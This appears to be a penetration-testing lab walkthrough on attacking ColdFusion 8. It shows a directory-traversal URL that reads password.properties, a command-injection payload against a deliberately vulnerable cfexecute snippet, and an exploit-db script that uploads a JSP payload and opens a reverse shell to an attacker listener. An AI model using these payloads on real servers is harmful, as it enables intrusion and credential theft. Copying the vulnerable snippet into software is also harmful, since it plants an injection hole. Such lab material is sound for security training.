 ## Attacking ColdFusion
#### 1. Searchsploit Recon for ColdFusion

Use `searchsploit` to enumerate known exploits:

```bash
searchsploit adobe coldfusion
```

Key relevant entries for ColdFusion 8:

- Directory Traversal: `/usr/share/exploitdb/exploits/multiple/remote/14641.py`    
- Unauthenticated RCE: `/usr/share/exploitdb/exploits/cfm/webapps/50057.py`
#### 2. ColdFusion Directory Traversal Exploit (CVE-2010-2861)

Summary:  
This vulnerability allows path traversal by manipulating ColdFusion `.cfm` endpoint parameters like `locale`.

Vulnerable Endpoints:

- `CFIDE/administrator/settings/mappings.cfm`    
- `logging/settings.cfm`
- `datasources/index.cfm`
- `j2eepackaging/editarchive.cfm`
- `CFIDE/administrator/enter.cfm`

PoC URL:

```http
http://target/CFIDE/administrator/settings/mappings.cfm?locale=../../../../../etc/passwd
```

Exploit Usage:

```bash
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py <host> <port> <filepath>
```

Example:

```bash
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```

Output Snippet:

```
rdspassword=0IA/F[[E>[$_6&
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
```

`password.properties` contains encrypted credentials for internal services (DB, LDAP, Mail).
#### 3. Understanding Unauthenticated RCE

Definition:  
Allows code execution without any form of authentication. Often stems from exposed uploaders, misconfigured cfexecute calls, or deserialization bugs.

Example vulnerable CFML snippet:

```html
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">
```

Exploitation (Decoded):

```http
http://example.com/index.cfm?; echo "This server has been compromised!" > C:\compromise.txt
```

Encoded Payload:

```
http://example.com/index.cfm?%3B%20echo%20%22This%20server%20has%20been%20compromised%21%22%20%3E%20C%3A%5Ccompromise.txt
```
#### 4. ColdFusion 8 Unauthenticated RCE via File Upload (CVE-2009-2265)

Vulnerability Path:

```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=
```

Exploit Used:

```
/usr/share/exploitdb/exploits/cfm/webapps/50057.py
```

Setup:

```bash
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
```

Modify Script Variables:

```python
lhost = '10.10.14.55'
lport = 4444
rhost = '10.129.247.30'
rport = 8500
```
#### 5. Exploit Execution and Reverse Shell

```bash
python3 50057.py
```

Exploit Behavior:

- Generates and uploads malicious `.jsp` payload    
- Triggers remote execution via the vulnerable upload handler
- Deletes payload after execution

Sample Response:

```
Uploading payload: 1269fd7bd2b341fab6751ec31bbfb610.jsp
Listening on 10.10.14.55:4444
Received connection from 10.129.247.30:49866
```
#### 6. Shell Access

```bash
Ncat: Connection from 10.129.247.30:49866
```

Post-exploitation context:

```cmd
C:\ColdFusion8\runtime\bin> dir
...
jrun.exe
jrunsvc.exe
wsdl2java.exe
sniffer.exe
...
```

Reverse shell as ColdFusion service user confirms successful code execution on target.

Conclusion:

- ColdFusion 8 is vulnerable to both authenticated and unauthenticated remote code execution.
- CVE-2010-2861 allows reading sensitive config files, including encrypted service credentials.
- CVE-2009-2265 enables unauthenticated RCE by uploading and executing a JSP payload via FCKeditor.
- Both vulnerabilities provide significant attack surface for lateral movement or privilege escalation.
# Tags
> #Exploitation #Application-Exploitation #ColdFusion 